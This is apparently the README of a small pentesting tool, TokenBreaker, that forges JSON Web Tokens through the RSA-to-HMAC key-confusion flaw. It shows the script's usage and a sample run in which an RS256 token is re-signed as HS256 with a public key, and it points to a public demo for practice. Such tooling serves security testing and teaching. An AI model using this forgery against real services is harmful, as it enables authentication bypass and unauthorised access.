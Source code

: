 # TokenBreaker

Token Breaker is focused on 2 particular vulnerability related JWT tokens.

<ul>
  <li>1. The None Algorithm(Not pushed yet)</li>
  <li>2. RSAtoHMAC</li>
</ul>

Refer to <a href="https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/" >this</a> link about insights of the vulnerability and how an attacker can forge the tokens

<h1>RSAtoHMAC Usage</h1>

<code><pre>
usage: RsaToHmac.py [-h] -t TOKEN -p PUBKEY

TokenBreaker: 1.RSAtoHMAC

optional arguments:
  -h, --help                        show this help message and exit

required arguments:
  -t TOKEN, --token TOKEN           JWT Token value
  -p PUBKEY, --pubkey PUBKEY        Path to Public key File

Example Usage: python RsatoHMAC.py -t [JWTtoken] -p [PathtoPublickeyfile]</pre></code>

<h1>Output</h1>

<code><pre>
./RsaToHmac.py -t eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9kZW1vLnNqb2VyZGxhbmdrZW1wZXIubmxcLyIsImlhdCI6MTUzNzUxODczMiwiZXhwIjoxNTM3NTE4ODUyLCJkYXRhIjp7ImhlbGxvIjoid29ybGQifX0.GwWRgb31V7OaxFt9wMd8LlLWWi4Z3zJ4NL7k38yz2mRYzKht1cFYrsxQv4DJdGLwV6D6L08iwF7_J90usGnJoLw8OLVUZvcDRH8rgGtpICSjhv1qaWiHW4-Gcqet4NieJLuvZzJn2imV2-x5TUDJJICKUaj183EvuJTOnjWuD0-ieT3ixhXbm0-E_9LqsGIUJrRQZfPkFOgpH8OLaJYscJwUghWOEphYV-jeek91Qu3TJkeXUuIUUuCF_l6x3eIHheQ0eYLuFc7Ug85HFWemeQ4rK7kMr8sDd3YKnFwZIoDPF6gnnr3lNOydDbpjn-KHnu1oU0E2zk1NIgHPs4TVww -p /tmp/pub
Decoded Header value is : {"typ":"JWT","alg":"RS256"}
Decode Payload value is : {"iss":"http:\/\/demo.sjoerdlangkemper.nl\/","iat":1537518732,"exp":1537518852,"data":{"hello":"world"}}
Enter your header Value: {"typ":"JWT","alg":"HS256"}
Enter your payload value: {"iss":"http:\/\/demo.sjoerdlangkemper.nl\/","iat":1537518732,"exp":1537518852,"data":{"hello":"world"}}
Successfully encoded Token: 
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9kZW1vLnNqb2VyZGxhbmdrZW1wZXIubmxcLyIsImlhdCI6MTUzNzUxODczMiwiZXhwIjoxNTM3NTE4ODUyLCJkYXRhIjp7ImhlbGxvIjoid29ybGQifX0.aZ03C84GU7WfIFsyvRzr9NUhtDQttOvA6CW5fUxGXmU
</pre></code>

<p>Try out this vulnerability <a href="http://demo.sjoerdlangkemper.nl/jwtdemo/rs256.php?">here</a></p>

